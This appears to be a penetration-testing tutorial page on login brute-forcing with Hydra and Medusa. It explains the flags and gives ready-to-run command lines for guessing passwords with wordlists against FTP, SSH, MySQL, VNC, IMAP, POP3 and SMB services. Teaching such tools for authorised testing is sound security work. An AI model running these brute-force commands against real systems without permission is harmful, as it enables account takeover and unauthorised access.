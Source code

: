 ```yaml
---
title: Login
layout: page
parent: cracking
---
```


# Login

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Login bypass tools

### Hydra

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is a very fast and flexible login cracker that supports many different protocols. It can be used to perform brute-force attacks against various services, including HTTP, FTP, SSH, and more.

```bash
hydra -l user -P passlist.txt ftp://192.168.0.1
```

You can also use the `-t` flag to define the number of connects in parallel per target which is defaulted to 16, or use the `-m` flag for more options specific to each module.
The uppercase flags are to be used when you want to use a list (when you don't know this credential), and the lowercase when you know this login information.

- Basic HTTP auth :

```bash
hydra -C wordlist.txt TARGET_IP -s PORT http-get /
```

- SSH :

```bash
hydra -l alice -P password.txt -u -f ssh://TARGET_IP:PORT -t 4
```

- MySQL :

```bash
hydra -L user.txt -P password.txt -f mysql://TARGET_IP -V
```

- VNC :

```bash
hydra -l bob –P password.txt -s PORT TARGET_IP vnc
```

- Other examples :

```bash
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

### Medusa

[Medusa](https://github.com/jmk-foofus/medusa) is a speedy, parallel, and modular, login brute-forcer.
There are many other modules that are supported such as :

- CVS
- FTP
- HTTP
- RLOGIN
- SSHv2

To display them, simply use this command :

```bash
medusa -d
```

And to get specific options for a given module :

```bash
medusa -M smbnt -q
```

The following command instructs Medusa to test all passwords listed in passwords.txt against a single user (administrator) on the host 192.168.0.20 via the SMB service. The "-e ns" instructs Medusa to additionally check if the administrator account has either a blank password or has its password set to match its username (administrator).

```bash
medusa -h 192.168.0.20 -u administrator -P passwords.txt -e ns -M smbnt
```
